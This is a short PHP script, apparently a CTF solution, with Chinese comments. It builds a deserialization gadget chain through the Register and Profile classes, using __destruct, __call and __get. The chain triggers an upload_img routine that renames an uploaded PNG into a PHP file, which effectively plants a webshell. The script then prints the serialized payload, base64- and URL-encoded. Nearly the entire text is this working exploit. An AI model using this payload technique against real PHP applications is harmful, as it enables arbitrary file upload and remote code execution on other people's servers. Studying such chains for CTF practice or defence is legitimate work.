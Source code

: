 ```
<?php
namespace app\web\controller; //要不然反序列化会出错，不知道对象实例化的是哪个类

class Profile
{
    public $checker;
    public $filename_tmp;
    public $filename;
    public $upload_menu;
    public $ext;
    public $img;
    public $except;


    public function __get($name)
    {
        return $this->except[$name];
    }

    public function __call($name, $arguments)
    {
        if($this->{$name}){
            $this->{$this->{$name}}($arguments);
        }
    }

}

class Register
{
    public $checker;
    public $registed;

    public function __destruct()
    {
        if(!$this->registed){
            $this->checker->index();
        }
    }

}

$profile = new Profile();
$profile->except = ['index' => 'img'];//代表要是访问 index 这个变量，就会返回 img
$profile->img = "upload_img";//img 赋值 upload_img，让这个对象被访问不存在的方法时最终调用 upload_img
$profile->ext = "png";
$profile->filename_tmp = "../public/upload/da5703ef349c8b4ca65880a05514ff89/e6e9c48368752b260914a910be904257.png";
$profile->filename = "../public/upload/da5703ef349c8b4ca65880a05514ff89/e6e9c48368752b260914a910be904257.php";

//构造一个 Register，checker 赋值为 我们上面这个 $profile，registed 赋值为 false，这样在这个对象析构时就会调用 profile 的 index 方法，再跳到 upload_img 了
$register = new Register();
$register->registed = false;
$register->checker = $profile;

echo urlencode(base64_encode(serialize($register)));

```
